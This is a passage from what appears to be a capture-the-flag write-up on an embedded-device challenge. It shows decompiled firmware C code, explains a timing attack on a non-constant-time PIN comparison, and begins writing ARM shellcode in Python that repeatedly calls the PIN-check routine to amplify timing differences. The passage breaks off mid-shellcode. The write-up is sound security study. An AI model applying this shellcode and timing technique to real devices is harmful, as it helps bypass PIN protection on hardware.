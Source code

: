 ```c++
                                AES_CBC_decrypt_buffer(&ctx, buf, 16);
                            uart_write_buf(buf, 16);
                        }
                    } else {
                        // Send error byte to indicate key is locked
                        uart_write_u8(STATUS_KEY_LOCKED);
                    }
                } else {
                    uart_write_u8(STATUS_BAD_PIN);
                }
                break;
            }

            default:;
        }
    }
}
```

So now we can indeed confirm that the encryption/decryption is running AES and that the key with id 2 is locked. Of more relevance for this part of the series: `verify_pin`. That doesn't really look like a constant-time comparison to me, now does it?

We had already tried doing a timing attack before we had achieved remote code execution (mostly because we'd seen the name of this challenge mentioned in the discord server). The variability is however very low, and we cannot extract any accurate information on the pin from it.

What more can we do now that we can actually run our own code on the non-secure MCU? We *could* look at documentation, try to figure out how to perform timing on the devices and perform the entire attack there in shellcode. Of course, we *could* do that, but do we really want to? Instead, why don't we just amplify the signal-to-noise ratio by running a bunch of pin checks with the same input in a single connection. Then we can still do separate connections per attempted input, and do the timing conveniently from the outside.

Our shellcode gets a bit longer and more complex, and is now parametrized by the attempted pin.

```python
BUFFER_ADDR = 0x20001cd0
def push_dword(p):
    assert len(p) == 4
    return "\neor r0, r0, r0\n" + "\nlsl r0, r0, 8\n".join(f"orr r0, r0, {x}" for x in p) + "\npush {r0}\n"

def make_shellcode(attempt):
    return asm("""
            /* Retrieve a reference to the socket from the leftover stack of execute_command */
            sub sp, sp, 0x33c
            pop {r4}
            add sp, sp, 0x338

            /* r5 holds the address of the */
            ATTEMPT
            mov r5, sp

            /* r6 holds the pin verification address: 0x080001fc */
            mov r6, 0x0800
            lsl r6, r6, 8
            orr r6, r6, 0x1
            lsl r6, r6, 8
            orr r6, r6, 0xfd
            /* r7 holds the counter */
            mov r7, 1
            lsl r7, r7, 15

            loop:
```
